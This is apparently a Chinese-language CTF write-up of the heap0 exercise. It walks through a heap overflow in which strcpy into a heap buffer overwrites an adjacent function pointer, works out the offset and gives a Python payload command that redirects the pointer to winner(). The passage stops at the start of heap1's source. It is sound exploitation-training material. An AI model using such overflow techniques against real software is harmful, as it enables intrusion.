 ```c

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

其实就是，在堆里面分配了两片内存，**这两片内存是相邻的**。由两个指针指向。

```c
d->64个char的内存

f->一个指针
```

然后呢，我们的参数会被拷贝到d指向的内存处。这里存在堆溢出。

为什么是堆？

因为我们拷贝这个操作并不是在栈里面操作的，而是在堆里面操作的。

漏洞利用就是，在拷贝时，利用堆溢出，将f的指针修改为winner的地址。

这是ida的展示：	

![image-20220401181432470](Nightmare Heap.assets/image-20220401181432470.png)

关于偏移的计算：

其实程序执行以下就知道了：

```bash
data is at 0x8f01160, fp is at 0x8f011b0
```

相减就知道了。

然后就是执行指令：

```bash
./heap0 python -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'
```

# heap1

源码：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}
```